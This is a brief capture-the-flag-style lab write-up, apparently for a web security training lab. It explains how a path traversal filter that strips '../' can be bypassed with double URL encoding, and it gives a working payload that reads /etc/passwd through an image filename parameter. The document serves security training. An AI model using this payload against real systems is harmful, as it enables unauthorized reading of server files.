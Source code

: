 Title: File path traversal, traversal sequences stripped with superfluous URL-decode
Level: Practitioner
Desc:  This lab contains a path traversal vulnerability in the display of product images.
The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.
To solve the lab, retrieve the contents of the /etc/passwd file. 


The app blocks patterns like: `../`, but knowing that it then decode URL, we can inject pattern `../` in URL encoding
payload: `/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd`


![image](https://github.com/user-attachments/assets/09a88759-bcbe-403f-bab9-bd4be2d22b5e)
